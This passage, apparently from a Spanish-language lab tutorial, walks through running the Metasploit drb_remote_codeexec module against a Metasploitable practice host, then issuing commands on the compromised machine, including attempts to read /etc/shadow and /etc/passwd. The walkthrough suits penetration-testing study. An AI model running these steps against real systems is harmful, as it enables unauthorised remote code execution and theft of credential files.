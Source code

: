 o también:

```shell
msf5 > use exploit/linux/misc/drb_remote_codeexec
[*] Using config...

msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > show options
```

# rellenar campos:

```shell
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
RHOST                      no      The...
RPORT   8787               yes     The...
URI                        no      The URI of the target host (druby://host:port) (...)
```

Completamos la URI:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > set URI druby://192.168...:8080

URI => druby://192.168...:8080

```

Nos mostrará las opciones existentes y debemos llamar a exploit:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > show options
```

Llamamos a exploit y esperamos a que se ejecute:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > exploit
```


Ya tenemos la conexión lista con la víctima, asi que podemos ejecutar comandos como:

```shell
hostname
=> metasploitable
ls
ftp
msfadmin
rce.rb
service
user
cd /etc
cat shadow
cat: shadow: Permission denied
cat passwd
muchas cosas...en este caso el servidor de la víctima

```
